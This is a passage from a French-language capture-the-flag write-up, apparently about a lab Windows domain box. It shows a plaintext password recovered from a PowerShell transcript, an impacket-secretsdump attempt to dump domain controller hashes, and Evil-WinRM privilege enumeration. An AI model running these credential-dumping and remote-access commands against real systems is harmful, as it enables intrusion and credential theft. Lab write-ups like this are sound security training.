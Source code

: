 
Je trouve plusieurs fichiers cachee dans ce `PSTranscripts`, aussi un fichier `.txt` tres interessant. A l'interieur je trouve 
```sh
At line:1 char:1
+ cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (The syntax of this command is::String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
```

Un utilisateur `ryan` et aussi un mot de passe `Serv3r4Admin4cc123!`

![Hacked](https://i.ibb.co/P6BwvMw/pic3.png)

(Pwn3d!), Mais est-ce que je suis vraiment Admin de la Box maintenant ?
- Pour verifier je vais utiliser `secretsdump` pour essayer d'extraire les secrets `NTDS.DIT`

```sh
└─# impacket-secretsdump megabank.local/ryan:Serv3r4Admin4cc123\!@10.129.234.83
Impacket v0.12.0.dev1+20231114.165227.4b56c18a - Copyright 2023 Fortra

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
[-] DRSR SessionError: code: 0x20f7 - ERROR_DS_DRA_BAD_DN - The distinguished name specified for this replication operation is invalid.
[*] Something went wrong with the DRSUAPI approach. Try again with -use-vss parameter
[*] Cleaning up...
```

Ca ne marche pas

## Privilege Escalation
Avec cet utilisateur, je vais aussi me connecter au `winrm` pour voir si je pourrais escalader mes privileges.

```sh
Evil-WinRM* PS C:\Users\ryan\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

Rien d'interessant dans les privileges, et si je verifiais les `groups`

```sh
*Evil-WinRM* PS C:\Users\ryan\Documents> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                            Attributes
========================================== ================ ============================================== ===============================================================
Everyone                                   Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
```